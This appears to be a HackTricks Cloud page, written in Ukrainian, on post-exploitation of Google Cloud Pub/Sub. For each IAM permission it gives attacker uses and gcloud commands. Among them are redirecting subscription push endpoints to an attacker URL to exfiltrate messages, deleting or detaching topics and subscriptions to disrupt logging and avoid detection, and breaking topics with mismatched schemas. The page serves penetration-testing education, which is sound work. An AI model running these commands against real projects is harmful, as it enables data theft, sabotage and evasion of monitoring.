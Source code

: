 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

## Pub/Sub

Для отримання додаткової інформації про Pub/Sub перегляньте наступну сторінку:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Публікація повідомлення в темі, корисна для **відправки неочікуваних даних** та запуску неочікуваних функціональностей або експлуатації вразливостей:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Корисно для запобігання отриманню повідомлень підпискою, можливо, щоб уникнути виявлення.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Корисно для запобігання отриманню повідомлень підпискою, можливо, щоб уникнути виявлення.\
Можливо видалити тему навіть з приєднаними до неї підписками.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Використовуйте цей дозвіл для оновлення деяких налаштувань теми, щоб порушити її роботу, наприклад, `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Надайте собі дозвіл виконувати будь-які з попередніх атак.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Отримайте всі повідомлення на веб-сервері:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Створіть підписку та використовуйте її для **отримання повідомлень**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Видалити підписку** може бути корисним для порушення роботи системи обробки журналів або чогось подібного:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Використовуйте цей дозвіл для оновлення деяких налаштувань, щоб повідомлення зберігалися в місці, до якого ви маєте доступ (URL, Big Query table, Bucket) або просто для їх порушення.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Надайте собі дозволи, необхідні для виконання будь-яких з раніше згаданих атак.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Прикріпіть схему до теми, щоб повідомлення не відповідали їй, і таким чином тема була порушена.\
Якщо немає жодних схем, можливо, вам доведеться створити одну.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Може здатися, що видалення схеми дозволить надсилати повідомлення, які не відповідають схемі. Однак, оскільки схема буде видалена, жодне повідомлення фактично не потрапить у тему. Тому це **БЕЗКОРИСНО**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Надайте собі дозволи, необхідні для виконання будь-яких з раніше згаданих атак.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Це створить знімок всіх непідтверджених повідомлень і поверне їх до підписки. Не дуже корисно для зловмисника, але ось це:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перегляньте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами у **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
